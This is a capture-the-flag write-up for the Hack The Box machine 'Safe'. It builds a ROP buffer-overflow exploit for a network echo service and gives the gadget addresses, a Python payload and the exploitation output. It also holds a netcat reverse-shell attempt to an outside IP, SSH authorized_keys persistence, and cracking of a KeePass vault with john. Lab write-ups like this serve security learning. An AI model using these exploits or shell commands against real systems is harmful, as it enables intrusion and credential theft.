




Reconnmap · two open ports
db-d2@kali:~/hack_the_box$ nmap -sC -sV -sT -o safe_map 10.10.10.147 Starting Nmap 7.80 ( https://nmap.org ) Nmap scan report for 10.10.10.147 Host is up (0.027s latency). Not shown: 998 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0) 80/tcp open http Apache httpd 2.4.25 ((Debian)) |_http-title: Apache2 Debian Default Page: It works Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
So we have HTTP on 80 and SSH on 22. Let's check the HTTP site.
Web enumerationport 80 → myapp on 1337

Looks like the default Apache page — but let's inspect the source anyway.

So myapp is running on port 1337 and it's available for download. Let's poke at the service first.
db-d2@kali:~/hack_the_box$ nc 10.10.10.147 1337 21:05:13 up 27 min, 0 users, load average: 0.00, 0.00, 0.00 hello What do you want me to echo back? hello
Not much here. Let's grab myapp and take a look.
db-d2@kali:~/hack_the_box$ wget http://10.10.10.147/myapp Length: 16592 (16K) [application/octet-stream] Saving to: 'myapp' myapp 100%[=================================>] 16.20K --.-KB/s in 0.05s db-d2@kali:~/hack_the_box$ chmod +x myapp db-d2@kali:~/hack_the_box$ ./myapp 21:43:47 up 58 min, 3 users, load average: 0.01, 0.01, 0.00 What do you want me to echo back? bob bob
The overflowmyapp · NX means ROP
Okay, so we have a pretty basic app: it prints uptime, takes input, and echoes it back. Let's see if there's a buffer overflow in here.
What do you want me to echo back? yipyipyipyipyipyipyipyipyipyip... ... Segmentation fault
And jackpot. Let's break it open in gdb and run checksec (btw, if you're not using Peda, install it now).
Reading symbols from ./myapp... (No debugging symbols found in ./myapp) gdb-peda$ checksec CANARY : disabled FORTIFY : disabled NX : ENABLED PIE : disabled RELRO : Partial
NX is enabled, so I can't just drop shellcode on the stack and execute it. That rules out the easy path and forces a return-oriented chain — reuse code that's already in the binary. Oh, darn.
First I need the offset, so let's create a pattern and see where it lands in the RIP.
gdb-peda$ pattern create 200 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHA...' gdb-peda$ r 21:10:11 up 10 days, 24 min, 2 users, load average: 0.00, 0.00, 0.00 What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA... Program received signal SIGSEGV, Segmentation fault. [----------------------------------registers-----------------------------------] RBP: 0x41414e4141384141 ('AA8AANAA') RSP: 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA") RIP: 0x4011ac (<main+77>: ret) [-------------------------------------code-------------------------------------] 0x4011ab <main+76>: leave => 0x4011ac <main+77>: ret Stopped reason: SIGSEGV
We stopped on ret as it tried to load the next stack item into RIP. Awesome — let's own the RIP. I'll copy out jAA9AAOA and use it to locate the offset.
gdb-peda$ pattern_offset jAA9AAOA jAA9AAOA found at offset: 120
Now I'll create a fresh 120-byte pattern and tack 8 junk chars on the end to confirm control.
Great — after 120 bytes I can overwrite the stack and control the RIP (return instruction pointer). And if I own the RIP, I own the program. Time to plan the exploit.
Building the ROPsystem() + a gadget + test()
First, what do I have to work with?
gdb-peda$ info functions All defined functions: Non-debugging symbols: 0x0000000000401040 system@plt 0x0000000000401050 printf@plt 0x0000000000401060 gets@plt 0x0000000000401070 _start 0x0000000000401152 test 0x000000000040115f main
Aha — I have system() right there, so I don't need to bother leaking an address. Let's check out the totally-not-suspicious test function.
gdb-peda$ disassemble test Dump of assembler code for function test: 0x0000000000401152 <+0>: push rbp 0x0000000000401153 <+1>: mov rbp,rsp 0x0000000000401156 <+4>: mov rdi,rsp 0x0000000000401159 <+7>: jmp r13 0x000000000040115d <+11>: pop rbp 0x000000000040115e <+12>: ret End of assembler dump.
test moves whatever is in RBP into RDI, then jumps to whatever is in R13. system() runs whatever is in RDI as a command — so if I get /bin/sh into RBP and the address of system() into R13, I get a shell. From the crash, I own the RIP after 120 bytes and RBP 8 bytes before that.
So let's go gadget hunting.
db-d2@kali:~/hack_the_box$ ropper --file ./myapp --search "pop r13" [INFO] Searching for gadgets: pop r13 [INFO] File: ./myapp 0x0000000000401206: pop r13; pop r14; pop r15; ret;
I'm starting to see why this is a 20-point box. I can use this gadget to load the address of system() into R13, toss junk into R14/R15, ret into test(), and I'm in. I know there are plenty of tools that make this even easier (like Pwntools) — but this is a learning exercise, so…
from struct import * buf = "" buf += "/bin/sh\x00" *15 # /bin/sh sled because it's cooler than a NOP sled buf += pack("<Q", 0x401203) # pop rbp r12-r15 ret buf += "/bin/sh\x00" # load /bin/sh into rbp which later goes into rdi buf += "A" *8 # junk r12 buf += pack("<Q", 0x401040) # call system@plt arg[0] = rdi buf += "B" *16 # junk r14 r15 buf += pack("<Q", 0x401152) # call test - load /bin/sh into rdi and jmp to system print buf
This is what the stack should look like if I did it right — /bin/sh in RBP/RSP, system@plt in R13, sitting on the do_system ret.
[----------------------------------registers-----------------------------------]
RBP: 0x7fffffffe478 --> 0x68732f6e69622f ('/bin/sh')
RSP: 0x7fffffffe478 --> 0x68732f6e69622f ('/bin/sh')
RIP: 0x7ffff7e29c24 (<do_system+676>: ret)
R13: 0x401040 (<system@plt>: jmp QWORD PTR [rip+0x2fda])
R14: 0x4242424242424242 ('BBBBBBBB')Let's test it locally.
db-d2@kali:~/hack_the_box$ (cat payload ; cat) | ./myapp 00:17:41 up 22 days, 3:32, 2 users, load average: 0.00, 0.11, 0.09 What do you want me to echo back? /bin/sh whoami db-d2
Looks like we're ready to fire this at the box.
user.txtfire the exploit, then upgrade the shell
db-d2@kali:~/hack_the_box$ (cat payload ; cat) | nc 10.10.10.147 1337 00:27:11 up 1 min, 0 users, load average: 0.12, 0.08, 0.03 whoami user ls /home/user IMG_0545.JPG IMG_0546.JPG IMG_0547.JPG IMG_0548.JPG IMG_0552.JPG IMG_0553.JPG myapp MyPasswords.kdbx user.txt cat /home/user/user.txt 7********************
First, let's get a better shell.
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 6: python: not found
nc -e /bin/sh 10.10.16.143 4444
/bin/sh: 7: nc: not foundI guess it can't all be easy. More enumeration, then — SSH is listening, so let's check its config.
cat /etc/ssh/sshd_config # This is the sshd server system-wide configuration file. # Uncommented options override the default value. #Port 22 #PermitRootLogin prohibit-password #PubkeyAuthentication yes #AuthorizedKeysFile .ssh/authorized_keys .ssh/authorized_keys2 #PasswordAuthentication yes ChallengeResponseAuthentication no UsePAM yes X11Forwarding yes Subsystem sftp /usr/lib/openssh/sftp-server [ ... stock, unmodified Debian config; trimmed ... ]
… I mean, it is 20 points. Pubkey auth is on and the home directory is writable, so I drop my key into authorized_keys and SSH straight in as a proper user.
echo "c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFB[snip]" >> /home/user/.ssh/authorized_keys db-d2@kali:/etc/ssh$ ssh -i ~/id_rsa_generated user@10.10.10.147 Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64 user@safe:~$
That's better.
root.txta KeePass vault keyed by a photo
user@safe:~$ ls IMG_0545.JPG IMG_0546.JPG IMG_0547.JPG IMG_0548.JPG IMG_0552.JPG IMG_0553.JPG myapp MyPasswords.kdbx user.txt
A KeePass database sitting next to a set of image files — so one of those images is almost certainly the vault's key file. I'll scp the files down so I can run john locally.
db-d2@kali:~/hack_the_box/safe$ scp -i ~/id_rsa_generated user@10.10.10.147:~/IMG* . IMG_0545.JPG 100% 1863KB 3.5MB/s 00:00 IMG_0547.JPG 100% 2470KB 10.2MB/s 00:00 db-d2@kali:~/hack_the_box/safe$ scp -i ~/id_rsa_generated user@10.10.10.147:~/*.kdbx . MyPasswords.kdbx 100% 2446 26.8KB/s 00:00
It takes some trial and error, but there are only six files — and IMG_0547.JPG is the ticket in.
keepass2john -k IMG_0547.JPG ./MyPasswords.kdbx > hash.txt john -w=/usr/share/wordlists/rockyou.txt ./hash.txt --format=KeePass 0g 0:00:00:00 DONE (2020-10-10 01:21) 177100p/s 123456..sss MyPasswords:bullshit 1 password hash cracked, 0 left
With the key file and the cracked master password, kpcli opens the vault and hands over the root password.
db-d2@kali:~/hack_the_box/safe$ kpcli --key IMG_0547.JPG --kdb MyPasswords.kdbx Please provide the master password: ************************* kpcli:/> cd MyPasswords/ kpcli:/MyPasswords> ls === Entries === 1. Root password kpcli:/MyPasswords> show -f Root\ password Title: Root password Uname: root Pass: [************]
I think I'm done here. Let's go grab the flag.
user@safe:~$ su root Password: root@safe:~# whoami root root@safe:~# cat /root/root.txt d**************************
